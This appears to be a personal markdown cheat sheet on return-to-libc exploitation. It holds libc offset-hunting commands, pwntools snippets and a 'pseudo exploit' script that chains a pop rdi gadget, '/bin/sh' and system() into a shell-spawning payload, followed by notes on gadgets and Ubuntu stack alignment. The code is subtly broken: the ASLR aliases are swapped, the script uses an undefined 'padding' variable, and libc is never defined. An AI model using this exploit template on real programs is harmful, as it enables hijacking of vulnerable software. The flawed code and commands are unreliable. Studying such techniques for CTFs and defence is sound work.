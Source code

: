 ![alt text](https://miro.medium.com/max/480/1*Y217A9lJL0IznoeQ3tLFVg.jpeg)

A **"return-to-libc" attack** is a [computer security](https://en.wikipedia.org/wiki/Computer_security "Computer security") attack usually starting with a [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow "Buffer overflow") in which a subroutine [return address](https://en.wikipedia.org/wiki/Return_statement "Return statement") on a [call stack](https://en.wikipedia.org/wiki/Call_stack "Call stack") is replaced by an address of a subroutine that is already present in the [process](https://en.wikipedia.org/wiki/Process_(computing) "Process (computing)") executable memory, bypassing the [no-execute bit](https://en.wikipedia.org/wiki/NX_bit "NX bit") feature (if present) and ridding the attacker of the need to [inject](https://en.wikipedia.org/wiki/Code_injection "Code injection") their own code. The first example of this attack in the wild was contributed by [Alexander Peslyak](https://en.wikipedia.org/wiki/Solar_Designer "Solar Designer") on the [Bugtraq](https://en.wikipedia.org/wiki/Bugtraq "Bugtraq") mailing list in 1997.[[1]](https://en.wikipedia.org/wiki/Return-to-libc_attack#cite_note-1)


---



![alt text](https://imgs.search.brave.com/NRHpPSjASQpFcQPzSDNuukh85MMmop77YkJAExCn02Q/rs:fit:1200:720:1/g:ce/aHR0cHM6Ly9pLnl0/aW1nLmNvbS92aS9G/dlFZR0FNMVg5VS9t/YXhyZXNkZWZhdWx0/LmpwZw)

---

## finding 'parts' for ret2libc 

```bash
# this will return the offset of the string within libc
strings -a -t x libc.so.6 | grep "/bin/sh"
strings -a -t x libc.so.6 | grep "/bin/bash"

# find offset of system() in libc 
readelf -s libc.so.6 | grep "system" # or any function you wanna call

# other useful functions primarely for memory leaks
readelf -s libc.so.6 | grep "puts"
readelf -s libc.so.6 | grep "printf"
```


```python
# finding /bin/sh with pwntools
from pwn import *

libc=ELF('libc.so.6')
libc_binsh=libc.search("/bin/sh\x00").next()
```

##### NOTE:
```bash
# MAKE SURE ASLR IS TURNED OFF WHEN TRYING TO FIND  LIBC BASE (AND OTHER STUFF)
alias aslr_on="echo 0 > /proc/sys/kernel/randomize_va_space"  
alias aslr_off="echo 2 > /proc/sys/kernel/randomize_va_space"
```

---

## crafting an example exploit

(**note**)
```
use offsets gathered and subtract from the base address of libc to call the function
```

```python
# PSUEDO EXPLOIT
# https://stacklikemind.io/ret2libc-aslr
from pwn import *

"""
:OFFSETS
	1b3e1a /bin/sh
	libc base 0x00007fdecd5c2000
	14b30 __libc_system
"""

binary = context.binary = ELF("./binary", checksec=True)
p = process()


pop_rdi = p64(0x400783)
sh = p64(next(libc.search(b"/bin/sh")))
sys = p64(libc.symbols["system"])
padd = b"A"*80

"""
: stack alignment for movaps instruction ubuntu
: simple pointer to a ret function just to keep the stackaligned by 16 bytes

stack_alignment = p64(0x00400784)
"""


payload = padding + pop_rdi + sh + sys
p.sendline(payload)
p.interactive()
p.close()
```

```asm
pop rdi   ; put data from the top of the stack into rdi and increment rsp
ret       ; Pops the return address off the stack and into the instruction pointer 
```

- https://github.com/david942j/one_gadget  The best tool for finding one gadget arbitrary code execution in libc.so.6


---

# NOTES:

##### LIBC
> Plenty of programs use functions from the standard C library. To provide a standard runtime environment and to save space, those functions are packaged in a separate file (libc.so). During the application startup, this file is loaded into the program’s memory and shared library functions can now be called. You can see where libc is loaded by running the command `vmmap` in gpd-peda).

##### Calling Conventions
> In amd64 architecture, the calling convention (order and place from where args are read) for integers is the following:
> 
> -   RDI
> -   RSI
> -   RDX
> -   RCX
> -   R8
> -   R9

##### Gadgets
- an attacker gains control of the [call stack](https://en.wikipedia.org/wiki/Call_stack "Call stack") to hijack program [control flow](https://en.wikipedia.org/wiki/Control_flow "Control flow") and then executes carefully chosen [machine instruction](https://en.wikipedia.org/wiki/Machine_instruction "Machine instruction") sequences that are already present in the machine's memory, called "gadgets"
- calling different instructions from memory


> Ideally, a gadget contains no extra instructions between the ones we need and the `ret`. Otherwise we might have to take the extra instructions into account and adjust our payload accordingly. Sometimes, there are no perfect gadgets available.

##### movaps bullshit

- This is unique to **Ubuntu**. It has its own version of libc, in which system has additional `movaps` instructions for moving data to the stack. These instructions require the stack to be aligned by `16 bytes`. When the stack is not aligned, the `movaps` will trigger an error.
